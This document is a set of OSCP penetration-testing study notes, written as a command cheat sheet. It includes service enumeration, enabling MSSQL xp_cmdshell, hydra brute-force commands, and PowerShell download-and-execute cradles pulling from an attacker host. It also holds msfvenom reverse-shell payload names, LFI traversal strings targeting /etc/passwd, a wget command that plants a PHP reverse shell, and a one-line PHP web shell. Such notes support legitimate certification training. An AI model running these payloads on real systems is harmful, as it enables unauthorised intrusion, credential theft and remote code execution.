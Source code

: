 # OSCP-NOTES
## Enumeration
1. Ports
```
port 21 — FTP (File Transfer Protocol)
port 22 — SSH (Secure Shell)
port 23 — Telnet
port 25 — SMTP (Simple Mail Transfer Protocol)
port 53 — DNS (Domain Name System)
port 443 — HTTP (Hypertext Transport Protocol) and HTTPS (HTTP over SSL)
port 110 — POP3 (Post Office Protocol version 3)
port 135 — Windows RPC
ports 137–139 — Windows NetBIOS over TCP/IP
port 1433 and UDP port 1434 — Microsoft SQL Server
```
* Port 21 FTP
```
ftp <ip>
nc <ip> 21
```
* Port 22 SSH
```
nc -w <ip> 22
```
* Port 25 SMTP
```
nc -w <ip> 25
telnet <ip> 25
* VRFY <user>
```
* Port 53
```
nslookup
*server <ip>
*<ip>
dig axfr <domain_name> @<ip> 
```
* Port 110 POP3
```
telnet <ip> 110
* USER <username>
* PASS <password>
* list #list mails
* retr #cd
```
* Port 139 & 445 SMB
```
#check list
smbclient -L <ip>
enum4linux -a <ip>
smbmap -H <ip>
#Login
smbclient //<ip>/<filename> -U <username>
```
* Port 1433 MsSQL
```
sqsh -S <ip> -U <username> or sqsh -S <ip> -U <username> -P "<password>"
* 1> EXEC SP_CONFIGURE N'show advanced options', 1
* 2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
* 2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> RECONFIGURE
* 2> go
* 1> xp_cmdshell 'dir C:\';
* 2> go
```
* SSH login
```
ssh <username@ip> 
```
* Password Decrypt
  * Decode Base64 Encoded Values
  ```
  echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode
  ```
  * Decode Hexidecimal Encoded Values
  ```
  echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
  ```
  * GPP Password
  ```
  gpp-decrypt <code>
  ```
* Send a file using netcat
  * send    
  ```
  nc -nlvp <ip> < <filename>
  ```
  * receive 
  ```
  nc -w 3 <ip> > <outputfilename>
  ```
* Brute Force
  ```
  hydra -l <user.txt> -p <pass.txt> <ip> ssh
  hydra -l root -P <password.txt> <ip> telnet  
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> ftp
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> -V http-form-post "/login.php:<request>:<wrong_message>''"
  ```
 * Powershell Download
 ```
 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<LHOSTIP>/<filename>', '<Location\filename>')"
 powershell -c CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://<LHOSTIP>/<filename>')")
 powershell -c "Invoke-WebRequest -Uri <LHOSTIP>/<filename> -Outfile <Location\filename>"
 ```
 * Msfvenom
 ```
 windows/shell/reverse_tcp 
 windows/x64/shell/reverse_tcp
 ------------------------------->exe,asp,aspx
 linux/x86/shell/reverse_tcp
 linux/x64/shell/reverse_tcp
 ------------------------------->elf
 java/jsp_shell_reverse_tcp > war,jsp
 php/reverse_php > php
 ```
* LFI
```
/etc/passwd
/etc/passwd%00 # null byte terminate
../../../../../../etc/passwd%00 # directory traversal
php://filter/convert.base64-encode/resource=/etc/php5/apache2/php.ini%00 
expect://whoami # expect wrapper, direct code execution, not enabled by default
php://input # php code execution, send php code in POST data `<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>`
/proc/self/environ # if readable, write php code in "User Agent" data, and it'll appear within environ
/proc/self/fd/0 # if readable, write php code in "referer" data, and it'll appear within file descriptor. make sure to brute force the fd number 0-10+
/var/lib/php/session s
/tmp/ 
```
* RFI
```
<?php echo shell_exec($_GET['cmd']);?>
```
